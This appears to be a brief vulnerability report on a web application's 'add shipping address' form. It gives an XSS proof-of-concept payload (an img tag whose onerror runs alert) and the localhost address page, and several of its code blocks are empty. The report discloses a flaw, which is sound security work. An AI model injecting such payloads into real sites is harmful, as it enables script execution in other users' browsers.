



payload:

~~~
< img src="" onerror="alert('xss 注入')" />">
~~~

~~~

~~~

~~~

~~~

My shipping address

Add a new shipping address under my shipping address

~~~
https://127.0.0.1/user/address
~~~

